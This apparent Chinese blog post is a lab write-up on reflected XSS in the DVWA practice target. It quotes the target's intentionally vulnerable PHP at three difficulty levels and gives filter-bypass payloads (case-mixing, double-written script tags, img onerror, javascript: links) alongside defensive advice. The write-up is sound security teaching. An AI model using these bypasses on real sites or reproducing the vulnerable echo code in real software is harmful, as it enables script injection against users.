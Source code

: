 ```yaml
---
layout:     post
title:      DVWA靶机学习——XSS (Reflected)
subtitle:   这个系列是学习DVWA靶机的。今天学习XSS (Reflected)，即反射型XSS的Low、Medium、High、Impossible级别。
date:       2020-11-21
author:     HouKC
header-img: img/home-bg-universe.jpg
catalog:    true
tags:
    - CTF
    - web
    - writeup
    - 网络安全
    - dvwa
    - 靶机
---
```




## 0x00 XSS (Reflected)

XSS，全称Cross Site Scripting，即跨站脚本攻击，是指攻击者在页面中注入恶意代码，当受害者访问该页面时，恶意代码会在其浏览器上执行。

XSS不仅限于JavaScript，还可以是Flash等脚本语言，根据恶意代码是否存储在服务器，XSS分为存储型XSS和反射型XSS。

DOM型的XSS由于比较特殊，常被分为第三种，是基于DOM树的XSS。如服务器端常使用document.body.innerHtml等函数动态生成html页面，如果这些函数在引用某些变量时没有进行过滤或检查，就会产生DOM型XSS。DOM型XSS可能是存储型，也可能是反射型。



## 0x01 Low

#### 源码分析
```php
<?php
header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}
?>  
```
关闭了XSS保护，没有设置任何过滤，直接将GET方式提交的变量值输出成html，构成了反射型XSS。

#### 解题思路
直接输入下述代码即可弹出弹框
```html
<script>alert(1);</script>
```


## 0x02 Medium
#### 源码分析
```php
<?php
header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
?> 
```
关闭了XSS保护，并且str_replace函数会将\'\<script\>\'替换成空字符，然后才输出，但是str_replace对大小写不敏感，str_ireplace函数才对大小写敏感。

可以通过大小写绕过或双写绕过，来构成XSS。

#### 解题思路
1、大小写绕过

```html
<Script>alert(1);</scRipt>
```
大写script哪些字母都可以。

2、双写绕过

```html
<sc<script>ript>alert(1);</scr<script>ipt>
```
注意双写绕过时要将被替换的字符全部写进去，这里不只是双写script。



## 0x03 High

#### 源码分析
```php
<?php
header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
?>
```
关闭了XSS保护，使用preg_replace函数作正则匹配，只要包含字符串\'\<script\>\'就算是中间有别的字符也会匹配到，并且i参数表示大小写都能匹配。

因此不能再使用大小写绕过或双写绕过了。但可以通过其他标签、属性来执行JavaScript脚本弹框，如：img标签。

#### 解题思路
利用img标签的onerror属性，onerror属性是在src属性出错时执行，所以只要让src属性是一个不存在的链接或值即可。构造XSS注入代码如下：
```html
<img src='1' onerror='alert(1)'>
```
也可以用a标签
```
<a href='javascript:alert(1)'>click me</a>
```
但是需要点击click me链接才会生效。



## 0x04 Imposible

#### 源码分析
```php
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();
?> 
```
源码中使用CSRF token来防御CSRF攻击。

htmlspecialchars()函数把字符&、\"、\’、\<、\>转换为HTML实体，防止浏览器将其作为HTML元素，从而防御XSS攻击。

#### 解题思路
无。



## 0x05 小结

防御方法：
- 黑名单过滤用户输入，注意大小写都考虑进去。
- 使用htmlspecialchars()函数将特殊符号变成HTML实体。
- 使用owasp等安全XSS处理API。



## 0x06 参考

[https://www.freebuf.com/articles/web/123779.html](https://www.freebuf.com/articles/web/123779.html)